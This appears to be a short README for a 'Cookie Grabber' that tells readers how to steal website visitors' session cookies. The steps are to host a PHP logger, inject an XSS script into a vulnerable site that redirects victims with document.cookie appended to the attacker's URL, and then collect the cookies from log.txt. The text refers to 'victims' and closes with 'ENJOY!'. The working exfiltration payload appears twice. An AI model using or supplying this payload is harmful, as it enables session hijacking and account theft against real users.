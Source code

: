 # Cookie Grabber By Rohit Sonii ~ rohit_sonii 
	**************************** Cookie Grabber By Rohit Sonii ~ rohit_sonii ****************************
	Instructions to Execute:
	1. Choose a free/paid hosting and upload both the files (grabCook.php & grabify.html)
	-----------------------------------------------------
	grabCook.php 		www.ExampleSite.com/grabCook.php
	grabify.html 		www.ExampleSite.com/grabify.html
	-----------------------------------------------------
	
	2. Upload grabify.html to victim's website (RARELY POSSIBLE)
		Alternatively
	   Copy the script command from above and paste in XSS Vulnerable point.
	-----------------------------------------------------
	<script>document.location="http://127.0.0.1/grabCook.php?send_data="+document.cookie</script>
	-----------------------------------------------------
	
	3. Update the path of uploaded `grabCook.php` file.
	-----------------------------------------------------
	<script>document.location="http://www.ExampleSite.com/grabCook.php?send_data="+document.cookie</script>
	-----------------------------------------------------
	
	4. Execute it.
	5. A log.txt will be created in your hosting server with the victim's cookies. 
	
	ENJOY!
